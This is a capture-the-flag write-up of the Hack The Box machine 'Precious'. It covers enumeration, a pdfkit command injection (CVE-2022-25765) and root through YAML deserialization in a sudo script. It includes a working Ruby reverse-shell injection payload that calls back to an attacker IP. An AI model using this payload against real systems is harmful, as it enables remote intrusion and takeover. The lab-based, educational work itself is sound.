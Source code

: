 ```yaml
---
title: "[HTB] Machine: Precious"
description: "[HTB] Machine: Precious"
date: 2023-05-20
menu:
  sidebar:
    name: "[HTB] Machine: Precious"
    identifier: htb-machine-precious
    parent: htb-machines-linux
    weight: 10
hero: images/precious.png
tags: ["HTB", "subdomain", "ruby", "phusion", "passenger", "nginx", "exiftool", "pdfkit", "cve-2022-25765", "command-injection", "bundler", "yaml-deserialization", "vhosts"]
---
```


# Precious
## Enumeration
- ```Nmap```
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -sC -sV -T4 10.10.11.189         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 11:09 EDT
Nmap scan report for 10.10.11.189 (10.10.11.189)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.35 seconds
```
- Let's check port ```80```

![](./images/1.png)

- It's a service that converts Web Pages to PDF
  - Let's supply anything and see what it returns
  - I am running Burp Suite in the background
- So after supplying any url, we receive a pdf
  - So I tried figuring out the backend service, or library that was responsible for conversion
  - I took the response data from Burp Suite and used [Cyber Chef](https://gchq.github.io/CyberChef/) to decode it

![](./images/2.png)

- We see the package and it's version
  - After a little bit of googling

![](./images/3.png)

- Let's test it

![](./images/4.png)

- I set up ```tcpdump``` to listen to ICMP
  - Success

![](./images/5.png)

- Let's get a foothold
## Foothold
- I used [revshells.com](https://www.revshells.com/) to create a payload for Ruby (It was revealed in Burp Suite responses and [pdfkit](https://github.com/pdfkit/pdfkit) is a Ruby package)

![](./images/6.png)

```
http://10.10.16.37:8000/index.html?p=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.37",6666))'`'}
```

- Try the payload
  - And We get a reverse shell

![](./images/7.png)

- Now we need to privesc
  - After running the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - We see that we have another user
```
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash                                                                                                                                                                                            
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```
## User
- After checking the home directory of the ```ruby``` user
  - I found ```henry``` credentials
  - And ```su``` to ```henry```

![](./images/8.png)

- Let's get root
## Root
- The first thing I check is ```sudo``` privileges
  - And we get a result

![](./images/9.png)

- Let's check the file
  - According to the comments, the script loads the list of dependencies from the ```dependencies.yaml``` and compares them to the ones already installed
  
![](./images/10.png)

- After googling
  - We find that there is a [yaml injection](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/)
  - or https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

![](./images/11.png)

- Check the version

![](./images/12.png)

- So let's try
  - Firstly, it seems like the script searches for ```dependencies.yaml``` file in the directory where we execute the command
  - So we can create ```dependencies.yaml``` anywhere where we have the privileges to do so
  - Copy the payload from the links above

![](./images/13.png)

- Run the command
  - And we get our flag

![](./images/14.png)
